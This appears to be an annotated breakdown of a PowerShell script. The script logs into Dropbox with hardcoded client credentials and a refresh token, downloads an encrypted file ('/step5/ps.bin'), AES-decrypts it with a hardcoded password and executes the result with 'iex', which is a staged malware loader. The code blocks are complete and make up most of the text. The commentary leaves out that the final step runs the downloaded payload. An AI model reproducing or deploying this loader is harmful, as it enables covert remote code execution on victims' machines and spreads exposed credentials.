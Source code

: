 - This function, AESDecrypt, is responsible for decrypting data using the AES (Advanced Encryption Standard) algorithm. It takes a byte array ($bytes) and an optional password ($pass) as input parameters. The function reads the salt value from the input byte array, derives the AES key and initialization vector (IV) using the PBKDF2 (Password-Based Key Derivation Function 2) algorithm with the provided password, creates an AES decryptor object, and decrypts the input data using a CryptoStream. The decrypted data is returned as a byte array.

```powershell
$clientID = "oj8kd1lzqrw7v3m";
$clientSecret = "vwp27gytekx9jfq";
$refreshToken = "wR3_ULk2OicAAAAAAAAAAV81-_COcFPa8SN0V5K-ZPTYB-BVIH5E1c4_fqLOCC_u";
$body = @{grant_type="refresh_token";refresh_token=$refreshToken;
    client_id=$clientID;
    client_secret=$clientSecret};
$tokenEndpoint = "https://api.dropboxapi.com/oauth2/token";
$response = Invoke-RestMethod -Uri $tokenEndpoint -Method Post -Body $body;
if ($response.access_token) {
    $accessToken = $response.access_token;
    }

```
- This section of the code appears to be authenticating with the Dropbox API using a refresh token and client credentials. The $clientID, $clientSecret, and $refreshToken variables contain hardcoded values specific to a Dropbox application or account. The script sends a POST request to the Dropbox token endpoint (https://api.dropboxapi.com/oauth2/token) with the required parameters to obtain an access token. If the response contains an access token, it is stored in the $accessToken variable.

```powershell
$downloadUrl = "https://content.dropboxapi.com/2/files/download";
$remoteFilePath = "/step5/ps.bin";
$request = [System.Net.HttpWebRequest]::Create($downloadUrl);
$request.Method = "POST";$request.Headers.Add("Authorization", "Bearer $accessToken");
$request.Headers.Add("Dropbox-API-Arg", '{\"path\": \"' + $remoteFilePath + '\"}');
$response = $request.GetResponse();
$receiveStream = $response.GetResponseStream();
$pass = "pa55w0rd";
if ($receiveStream -ne $null) {
    $streamReader = New-Object System.IO.StreamReader($receiveStream);
    $memoryStream = New-Object System.IO.MemoryStream;
    $buffer = New-Object byte[] 1024;
    $read = 0;
    do { 
        $read = $receiveStream.Read($buffer, 0, $buffer.Length);$memoryStream.Write($buffer, 0, $read);
        } while ($read -gt 0);
    $enc_bytes = $memoryStream.ToArray();
    $dec_bytes = AESDecrypt -bytes $enc_bytes -pass $pass;
    $newString = [System.Text.Encoding]::UTF8.GetString($dec_bytes);
    iex $newString;$memoryStream.Close();
    $streamReader.Close();
    };
$receiveStream.Close();$response.Close();
```
- In this final section, the script uses the obtained access token to download a file (/step5/ps.bin) from the Dropbox API. It creates an HTTP request with the appropriate headers, including the access token and the file path. The response stream is then read into a memory stream, and the received data is decrypted using the AESDecrypt function with the hardcoded password "pa55w0rd".
